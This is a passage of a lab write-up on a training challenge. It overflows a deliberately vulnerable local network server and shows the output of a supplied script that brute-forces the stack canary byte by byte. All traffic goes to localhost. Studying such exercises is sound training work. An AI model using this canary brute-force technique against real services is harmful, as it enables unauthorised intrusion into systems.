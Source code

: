 Lets start the server:

```
root@hlUbuntu64:~/challenges/challenge14# ./challenge14-server
Listening to port: 32001
```

Lets send a small amount of data :

```
root@hlUbuntu64:~/challenges/challenge14# nc localhost 32001
AAAABBBB
ok
```

We sent `AAAABBBB`, and the server answered with `ok`. Note that the connection is still
open, netcat did not exist, and we could send more data.

The server will output:
```
Got a connection from 127.0.0.1 on port 57728
Received: 9 bytes
Send: OK
```

## Overflow

Lets send some more data this time:
```
root@hlUbuntu64:~/challenges/challenge14# nc localhost 32001
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
root@hlUbuntu64:~/challenges/challenge14#
```

As we see, netcat exited after sending the long string. What did the server output:
```
Got a connection from 127.0.0.1 on port 57730
Received: 52 bytes
*** stack smashing detected ***: ./challenge14-server terminated
```

We compiled the server with enabled stack canary, and it does detect the stack corruption.


## Exploit

A sample exploit is provided in the file `challenge14-bruteforce.py`. When started it has the
following output:

```
root@hlUbuntu64:~/challenges/challenge14# ./challenge14-bruteforce.py
Send 16: AAAAAAAAAAAAAAAA
Send 17: AAAAAAAAAAAAAAAAA
Send 18: AAAAAAAAAAAAAAAAAA
Send 19: AAAAAAAAAAAAAAAAAAA
Send 20: AAAAAAAAAAAAAAAAAAAA
Send 21: AAAAAAAAAAAAAAAAAAAAA
Send 22: AAAAAAAAAAAAAAAAAAAAAA
Send 23: AAAAAAAAAAAAAAAAAAAAAAA
Send 24: AAAAAAAAAAAAAAAAAAAAAAAA
Send 25: AAAAAAAAAAAAAAAAAAAAAAAAA
Crash of server at offset: 25
Offset is: 24
Found byte: 0x0
Found byte: 0x19
Found byte: 0x8b
Found byte: 0xd0
Found byte: 0x33
Found byte: 0xcc
```